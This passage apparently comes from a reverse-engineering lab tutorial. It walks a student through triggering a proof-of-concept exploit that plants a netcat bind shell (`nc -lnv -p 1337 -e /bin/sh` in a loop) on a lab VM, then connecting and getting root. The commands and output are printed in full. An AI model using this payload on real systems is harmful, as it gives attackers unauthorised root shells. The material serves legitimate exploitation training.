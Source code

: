 Now, trigger the exploit by sending in the same buffer you used for your initial cut at the PoC exploit (i.e. the one where we ran the `id` command).  You should see output that resembles what is below.  Note that in the example below the actual command is replaced with the `0xDEADBEEF` example.

````
student@revm:~$ python -c 'print "AAAAAAAA\xEF\xBE\xAD\xDEAAAAAAAA\xEF\xBE\xAD\xDE"' | nc 127.0.0.1 5555
The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

If you enter the correct password you can change the message of the day.

password: 

````

Observe that this time you triggered the exploit your connection did not terminate like it did before.  This is because the command successfully executed and our netcat listener is running on the server (i.e. the VMS).

If everything worked, you should be able to connect to the `netcat` listener you started on the VMS system from your Reverse Engineering VM.  Run the following command from a new terminal window on your Reverse Engineering VM.

```
student@revm:~$ nc 127.0.0.1 1337
```

After running the command above you should see a message printed on the console of the VMS system that looks like the following.  Your source port will vary with each connection (below the source port is `33888`).

```
Connection from 10.0.2.2:33888
```

Now, try running some shell commands from the terminal window where your ran your `netcat` client (i.e. the terminal where you ran the `nc 127.0.0.1 1337` command).  Start by running the `id` command as shown below and look for the output on the following line.

```
id
uid=0(root) gid=0(root)
```

This shows you that you have shell access and are running as the `root` user.

Now try running the `uname -a` command and you should see output that resembles what is shown below.

```
uname -a
Linux vms 4.19.16 #1 Mon Jul 15 12:29:09 EDT 2019 armv5tejl GNU/Linux
```

The output shows you the kernel name (`Linux`), hostname (`vms`), kernel release (`4.19.16`), kernel version (`#1 Mon Jul 15 12:29:09 EDT 2019`), machine hardware name (`armv5tejl`), and the operating system (`GNU/Linux`).  Note that your kernel release may vary slightly.  If your output is different it is possible you were not actually running the command via your shell connection to the VMS system and you are looking at the results from your Ubuntu Reverse Engineering VM.
